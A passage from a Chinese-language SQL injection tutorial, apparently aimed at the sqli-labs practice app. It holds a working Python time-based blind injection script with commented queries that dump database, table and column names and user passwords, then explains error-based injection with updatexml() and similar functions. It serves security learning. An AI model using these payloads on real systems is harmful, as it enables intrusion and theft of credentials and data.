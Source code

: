 ```python
             start=time.time()
             requests.get('http://192.168.14.137/Less-2/?id=1 and if(ascii(substr(('+sql+'),'+str(k)+',1))>'+str(i)+',1,sleep(2))')
             
             if((time.time()-start)>2):              
                w=w+chr(i)
                print(chr(i),end='')
                break
    return (w)





#sql='select database()' #爆当前库名
#sql='select group_concat(schema_name) from information_schema.schemata' #爆所有库名
#sql='select group_concat(table_name) from information_schema.tables where table_schema=database()'#爆库中所有表名
#sql='select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"'#爆表中所有字段名
#sql='select group_concat(password) from users' #爆内容

long=lenth(sql)

text=substrchr(sql,long)

```

## 报错注入

通过特殊函数的错误使用使其参数被页面输出。

前提：服务器开启报错信息返回，也就是发生错误时返回报错信息。

常见的利用函数有：exp()、floor()+rand()、updatexml()、extractvalue()等

[关于updatexml()报错注入](https://lexsd6.github.io/2019/11/13/%E5%85%B3%E4%BA%8Eupdatexml()%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%E7%9A%84%E6%80%9D%E8%80%83/)

updatexml()等函数报错通常有报错输出长度的限制，可以进行用substr等函数分割输出。

有的报错函数要求输出一行数据或只一次查询一个字段,可以使用group_concat等函数聚合数据即可。





## 参考文献

[对MYSQL注入相关内容及部分Trick的归类小结](https://xz.aliyun.com/t/7169#toc-53)

[SQL 注入绕过](https://xz.aliyun.com/t/2869)

